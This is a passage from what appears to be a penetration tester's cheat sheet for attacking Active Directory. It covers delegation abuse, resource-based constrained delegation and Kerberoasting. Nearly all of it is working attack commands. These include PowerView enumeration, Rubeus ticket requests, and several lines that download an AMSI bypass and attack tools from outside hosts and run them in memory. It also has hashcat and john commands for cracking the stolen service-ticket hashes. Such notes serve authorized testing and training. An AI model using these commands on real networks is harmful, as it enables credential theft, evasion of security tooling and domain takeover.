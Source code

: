             Self (Self-Membership) - ability to add yourself to a group
            AddMembers abused with Add-DomainGroupMember

    //Kerberos Delegation:
        //*check Bloodhound*
        //Unconstrained:
            Get-DomainComputer -Unconstrained
            Get-DomainUser -Unconstrained
            Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties trustedfordelegation,serviceprincipalname,description
            Get-DomainUser -ldapfilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
            nslookup <server> - then access via lateral movement or exploit
                //from there, exploit DC w/ SpoolSample or krbrelay
        //Constrained:
            Get-DomainUser -TrustedToAuth
            Get-DomainUser -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto,useraccountcontrol
            Get-DomainComputer -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto
            //especially note if current computer has anything
            //Exploit w/ Rubeus to get ticket to next allowed target
        //Resource Based Constrained:
            //finding computers we have rights over:
                Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
                //If GenericWrite/GenericAll/WriteProperty/WriteDACL - perform RBCD attack w/ Rubeus to get privileged access!

    //Kerberoasting:
        //Checking for users w/ SPNs:
            //Check BloodHound
            GetUserSPNs.py megacorp.local/snovvcrash:'Passw0rd!' -dc-ip 127.0.0.1 -request -outputfile tgsrep.in
            //Native:   setspn -T <domain> -Q */*
        //Making a user Kerberoastable (if you have privs):
            Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose
        //Getting hashes:
            (new-object system.net.webclient).downloadstring('http://192.168.45.158/amsi.txt') | IEX
            //PowerView:
                iex (new-object Net.WebClient).DownloadString("http://192.168.45.158/Invoke-Kerberoast.ps1")
                Invoke-Kerberoast -OutputFormat Hashcat | fl
                Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
                //Or:  Get-DomainSPNTicket -SPN "MSSQLSvc/sqlserver.targetdomain.com"
            //Rubeus:
                //in-memory:  $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.210/Rubeus.exe'); $assem = [System.Reflection.Assembly]::Load($data); [Rubeus.Program]::Main("<args>".Split())
                .\Rubeus.exe kerberoast /format:hashcat /nowrap [/usetgtdeleg] [/user:svc_mssql] [/domain:corp2.com]
                .\Rubeus.exe kerberoast /user:svc_mssql /outfile:hashes.kerberoast      #Specific user
                .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap      #Get of admins
        //Cracking:
            hashcat -m 13100 --force -a 0 /tmp/hash /usr/share/wordlists/rockyou.txt
            john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast
